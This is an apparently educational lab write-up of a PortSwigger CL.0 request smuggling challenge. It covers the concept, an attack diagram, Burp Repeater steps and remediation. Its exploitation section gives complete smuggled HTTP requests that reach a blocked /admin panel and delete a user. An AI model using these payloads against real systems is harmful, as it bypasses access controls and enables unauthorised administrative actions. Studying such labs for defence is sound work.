









## Challenge Overview
* **Challenge name**: CL.0 request smuggling
* **Category**: HTTP Request Smuggling
* **Level**: Practitioner
* **Objective**: Identify a vulnerable endpoint, smuggle a request to the back-end to access to the admin panel at `/admin`, then delete the user `carlos`.

---

## 1. Fundamental Concepts

CL.0 Request Smuggling (Content-Length to Zero) represents a modern, highly stealthy subclass of HTTP request desynchronization attacks. While classic request smuggling variants (CL.TE or TE.CL) depend on semantic parsing conflicts between the `Content-Length` and `Transfer-Encoding` headers, CL.0 operates on pure HTTP/1.1 pipelines without involving chunked encoding. It exploits an architectural discrepancy where the front-end reverse proxy parses and respects the `Content-Length` header, whereas the back-end application server completely ignores the `Content-Length` header for specific endpoints—treating the message body length as effectively zero (0).

### 1.1. The CL.0 Desynchronization Primitive
* **Front-End Content-Length Enforcement:** Under HTTP/1.1 (RFC 7230 / RFC 9112), a server reading a request with a `Content-Length` header must consume exactly that number of bytes from the transport stream before considering the request complete. The front-end proxy adheres strictly to this rule, forwarding both the header block and the entire body downstream over a shared TCP connection.
* **Back-End Zero-Length Assumption:** Certain backend web servers or application route handlers (e.g., static file handlers, redirect handlers, or specific REST controllers) determine request completion strictly at the end of the header block (`\r\n\r\n`). When handling routes that do not programmatically expect or read request payloads, the backend ignores `Content-Length` and immediately dispatches a response upon reading the headers, treating the request as bodyless (Length = 0).
* **Socket Receive Buffer Contamination:** Because the front-end delivered the request body into the persistent TCP socket, but the backend never invoked a read operation on the body stream, the unread bytes remain stranded inside the backend's TCP socket receive buffer. When a subsequent request arrives over the same connection, the backend prepends the stranded bytes to the new request, triggering request hijacking, cache poisoning, or access control bypasses.

### 1.2. Architectural Rationale: Why Static Assets (SVG, CSS, JS) Are Prime CL.0 Targets
A frequent security testing question arises: *"The challenge description does not mention static image files; how can an analyst deduce that `/resources/images/blog.svg` is vulnerable?"* The answer lies in backend routing architecture and request body handling models:
* **Dynamic Route Handlers vs. Static Asset Handlers:** In web frameworks (such as Express, Django, Spring Boot, or ASP.NET), dynamic route controllers (e.g., `/login`, `/search`, `/api`) incorporate body-parsing middleware that actively reads the incoming socket stream according to `Content-Length`. Consequently, sending a POST request to dynamic endpoints causes the backend to consume the body, preventing desynchronization.
* **The Static Handler Blind Spot:** Static file handlers (e.g., serving `.svg`, `.css`, `.js`, `.ico`) are designed exclusively for file retrieval from disk or memory. Their internal logic simply maps the URI path to a filesystem asset and writes the file contents to the output stream. They contain zero logic to read or process request bodies. When a client issues a POST request with a `Content-Length` header to a static resource, the static handler serves the file and closes its transaction without ever draining the inbound socket stream.
* **Reconnaissance & Asset Fuzzing:** Professional penetration testing methodology dictates inspecting Burp Suite's HTTP History to enumerate all referenced static assets loaded during homepage rendering. Analysts systematically probe these static resources with body-bearing POST requests to identify endpoints that exhibit CL.0 behavior.

### 1.3. Browser-Powered Desync (Client-Side Desynchronization)
* **Evolution Beyond Server-Side Smuggling:** Traditional CL.TE/TE.CL smuggling requires raw socket crafting because modern web browsers forbid JavaScript from manipulating the `Transfer-Encoding` header.
* **Client-Side Attack Surface:** In contrast, web browsers routinely permit cross-origin POST requests carrying custom body data via standard `fetch()` or hidden HTML forms without triggering preflight restrictions (`mode: no-cors`). In a CL.0 vulnerable environment, an attacker can host a malicious webpage that forces a victim's own browser to poison its connection to the vulnerable site, pioneering Client-Side Desynchronization (CSD).

> [!IMPORTANT]
> **CRITICAL ARCHITECTURAL INSIGHT:** CL.0 request smuggling does not require malformed headers or HTTP/2 protocol downgrading. It exploits the dangerous gap between a generic edge proxy that forwards bodies based on `Content-Length`, and an optimized backend static handler that serves files and abandons unread body bytes on persistent sockets.

---

## 2. Attack Model & Architecture

The attack model demonstrates how an attacker exploits a static file endpoint (`/resources/images/blog.svg`) to bypass front-end security controls blocking access to `/admin`, achieving complete administrative privilege escalation and deleting user `carlos`.

```text
[Attacker Client (Burp Repeater)]
    │
    │ (1) Sends Request 1 (Smuggler) over Keep-Alive Socket:
    │     POST /resources/images/blog.svg HTTP/1.1
    │     Host: target.net
    │     Connection: keep-alive
    │     Content-Length: 50
    │     [Body]:
    │       GET /admin/delete?username=carlos HTTP/1.1
    │       Foo: x
    ▼
[Front-end Reverse Proxy] (Enforces Content-Length)
    │ Inspects URI: /resources/images/blog.svg (Allowed)
    │ Reads Content-Length: 50
    │ Forwards entire request (Headers + 50-byte Body) to backend TCP socket
    ▼
[Back-end Web Server / Static Asset Handler]
    │ 1. Parses headers of Request 1 -> Matches static file route /blog.svg
    │ 2. Ignores Content-Length header entirely! (CL = 0 behavior)
    │ 3. Serves blog.svg file content immediately -> Returns HTTP 200 OK
    │
    │ [CRITICAL FLAW]: 50 bytes of unread body remain stranded in the TCP receive buffer:
    │                  'GET /admin/delete?username=carlos HTTP/1.1\r\nFoo: x'
    ▼
[Attacker Client (Burp Repeater)]
    │ (2) Sends Request 2 (Trigger) over THE SAME TCP Connection:
    │     GET / HTTP/1.1
    │     Host: target.net
    ▼
[Back-end Server Stream Concatenation]
    │ Backend reads next available bytes on socket:
    │   [Stranded Buffer] + [Incoming Request 2 Headers]
    │
    │ Resulting stream parsed by Backend:
    │   GET /admin/delete?username=carlos HTTP/1.1\r\n
    │   Foo: xGET / HTTP/1.1\r\nHost: target.net...
    │
    │ -> Backend executes GET /admin/delete?username=carlos internally!
    │ -> Bypasses front-end '/admin' block! Carlos account deleted!
    │ -> Backend returns HTTP 302 Found (Redirect to /admin) to Trigger tab!
```

### 2.1. Attack Lifecycle & Data Flow Breakdown
1. **Phase 1 - Access Control Baseline:** The attacker attempts to access `GET /admin` directly. The front-end proxy intercepts and drops the request, returning `HTTP/2 403 Forbidden: "Path /admin is blocked"`.
2. **Phase 2 - Reconnaissance & Static Asset Selection:** Analyzing HTTP Proxy history reveals several static assets loaded by the application, including `/resources/images/blog.svg`. Static handlers are prioritized for CL.0 probing.
3. **Phase 3 - Differential Probing & Vulnerability Confirmation:** In Burp Repeater, a Tab Group is established with two tabs (`smuggler` and `trigger`) configured for `Send group in sequence (single connection)`. A probe payload (`GET /404 HTTP/1.1`) is dispatched to `/blog.svg`. The trigger request returns `404 Not Found: /404`, confirming backend CL.0 desynchronization.
4. **Phase 4 - Internal Administrative Reflection:** The attacker updates the smuggled body to `GET /admin HTTP/1.1`. The trigger request returns the full administrative HTML portal, revealing the administrative user deletion endpoints.
5. **Phase 5 - Privilege Escalation & User Deletion:** The smuggled payload is modified to `GET /admin/delete?username=carlos HTTP/1.1`. Dispatching the sequence executes the deletion on the backend, returning `302 Found` redirecting to `/admin`.

### 2.2. Root Causes
* **Incomplete Request Body Ingestion:** The backend static asset handler fails to comply with RFC 7230 Section 3.3.3, terminating message ingestion at the header boundary while discarding declared `Content-Length` bytes.
* **Permissive HTTP Method Configuration:** Web servers serving static resources accept and process POST requests instead of strictly restricting static routes to idempotent GET/HEAD methods.
* **Unsafe Connection Pool Recycling:** The backend reuses persistent TCP connections from its connection pool without verifying that the transport receive buffer is drained and clear of unconsumed bytes.
* **Perimeter-Only Security Controls:** The front-end proxy relies solely on perimeter path matching (blocking external `/admin`) without ensuring that downstream backend requests are authenticated at the application layer.

---

## 3. Vulnerability Exploitation

The vulnerability was systematically verified, analyzed, and exploited using Burp Suite Repeater through a 6-stage empirical process.

### 3.1. Establishing Access Control Baseline
Initial testing was conducted by attempting to access the administrative panel directly (`GET /admin HTTP/2`). The front-end reverse proxy intercepted the request and returned `HTTP/2 403 Forbidden` (`"Path /admin is blocked"`), confirming perimeter-level access control enforcement:



### 3.2. Reconnaissance & Static Asset Enumeration via HTTP History
The blog application was browsed to inspect asset loading behavior in Burp Proxy **HTTP history**. When the home page loaded, the browser automatically requested several static assets:
* **Static Scripts:** `GET /resources/labheader/js/labHeader.js` (JavaScript)
* **Static CSS:** `GET /resources/labheader/css/academyLabHeader.css` (Stylesheets)
* **Static Images:** `GET /resources/images/blog.svg` (SVG Image, Length: 7499 bytes, MIME: image/svg+xml)

The SVG image `/resources/images/blog.svg` was selected as a prime candidate for CL.0 testing due to its static handler nature:





### 3.3. Probing for CL.0 Desynchronization on the Static Endpoint
Two requests were sent to Burp Repeater and organized into a Tab Group named `CL.0`:
* **Tab 1 (`smuggler`):** Sends a POST request to the static endpoint with a nested probe.
* **Tab 2 (`trigger`):** Sends a standard GET / request to detect desynchronization.

Crucially, both requests were set to protocol **HTTP/1.1** with `Connection: keep-alive`. The Repeater execution mode was set to **'Send group in sequence (single connection)'**.

In the `smuggler` tab, the request was constructed with `Content-Length: 25`:

```http
POST /resources/images/blog.svg HTTP/1.1
Host: 0a3b0062038ff46a81db2fc0003600e7.web-security-academy.net
Cookie: session=bb6k1A27o5eHEWmBObuvhJJqoF4dbNVx
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

GET /404 HTTP/1.1
Foo: x
```

Transmitting the group yielded `HTTP/1.1 200 OK` on the `smuggler` tab as the backend served the SVG image, completely ignoring the 25 body bytes:



Immediately following, the `trigger` tab executed `GET / HTTP/1.1`. Rather than the standard homepage, the server returned `HTTP/1.1 404 Not Found` with body `<p> Not Found: /404 </p>`:



This confirmed that the backend parsed the unread body from the socket as the start of the next request.

### 3.4. Bypassing Front-End Controls to Enumerate /admin
With CL.0 confirmed, the `smuggler` payload was updated to target `/admin` with `Content-Length: 27`:

```http
POST /resources/images/blog.svg HTTP/1.1
Host: 0a3b0062038ff46a81db2fc0003600e7.web-security-academy.net
Cookie: session=bb6k1A27o5eHEWmBObuvhJJqoF4dbNVx
Content-Type: application/x-www-form-urlencoded
Content-Length: 27

GET /admin HTTP/1.1
Foo: x
```



The sequence was transmitted. The `trigger` tab captured the response, returning `HTTP/1.1 200 OK` containing the full administrative interface HTML and exposing the user deletion endpoints:

```html
<div class="user-list">
    <span>wiener - <a href="/admin/delete?username=wiener">Delete</a></span>
    <span>carlos - <a href="/admin/delete?username=carlos">Delete</a></span>
</div>
```



### 3.5. Weaponizing Payload & Deleting User Carlos
To accomplish the lab objective, the `smuggler` payload was modified to execute the user deletion endpoint with `Content-Length: 50`:

```http
POST /resources/images/blog.svg HTTP/1.1
Host: 0a3b0062038ff46a81db2fc0003600e7.web-security-academy.net
Cookie: session=bb6k1A27o5eHEWmBObuvhJJqoF4dbNVx
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

GET /admin/delete?username=carlos HTTP/1.1
Foo: x
```



The group was transmitted across the single connection. The `trigger` tab received an immediate `HTTP/1.1 302 Found` redirecting to `/admin`:

```http
HTTP/1.1 302 Found
Location: /admin
X-Frame-Options: SAMEORIGIN
Keep-Alive: timeout=10
Content-Length: 0
```



The target user `carlos` was deleted from the backend database, completely solving the laboratory.

---

## 4. Remediation & Prevention

Remediating CL.0 request smuggling requires comprehensive defensive controls across web server static route configurations, transport connection management, and application-layer access controls.

### 4.1. Restrict HTTP Methods on Static Resource Handlers
* **Enforce Method Restrictions (HTTP 405):** Configure web servers, reverse proxies, and application frameworks to strictly reject non-idempotent HTTP methods (POST, PUT, PATCH, DELETE) on static file routes. Any POST request directed to static extensions (.svg, .css, .js, .png, .ico) must be rejected immediately with an HTTP 405 Method Not Allowed error before reaching backend handlers.
* **Edge-Level Static Asset Offloading:** Configure Nginx or Apache edge proxies to handle and terminate static file requests locally at the reverse proxy layer, preventing static requests from ever reaching upstream backend application sockets.

### 4.2. Mandatory Socket Stream Draining
* **Exhaustive Stream Draining:** Backend web server engines and application middleware must ensure that any incoming request containing a declared `Content-Length` header has its body completely drained from the socket stream before returning a response, even if the specific route handler does not utilize the payload.
* **Forced Socket Teardown on Protocol Anomaly:** If a backend handler encounters unexpected body data on a route that cannot process it, the server must forcibly terminate and destroy the TCP socket (`Connection: close`) rather than returning it to the persistent connection pool.

### 4.3. Modern Transport Protocols (End-to-End HTTP/2 / HTTP/3)
* **Eliminate Protocol Downgrading:** Migrate internal infrastructure to native HTTP/2 or HTTP/3 from the reverse proxy all the way to backend services. In HTTP/2 and HTTP/3, message boundaries are explicitly defined by binary frame lengths (HEADERS and DATA frames) rather than text-based delimiters or `Content-Length` headers, eliminating CL.0 desynchronization vectors.

### 4.4. Application-Layer Access Control & Defense-in-Depth
* **Zero-Trust Application Authorization:** Never rely solely on perimeter reverse proxy path filtering (e.g., blocking external `/admin`) to protect privileged endpoints. Enforce robust, session-based authentication and role-based access control (RBAC) directly inside backend application route handlers.
* **Idempotency Enforcement & CSRF Protection:** High-impact administrative actions (such as user deletion) must never be executed via simple GET requests. Implement strict POST/DELETE verbs protected by Anti-CSRF tokens and re-authentication prompts.
